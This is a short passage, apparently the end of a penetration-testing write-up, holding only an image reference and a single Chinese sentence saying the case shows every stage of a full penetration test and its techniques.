

通过这个案例，你可以清晰地看到一次完整渗透测试的各个阶段及其采用的技术。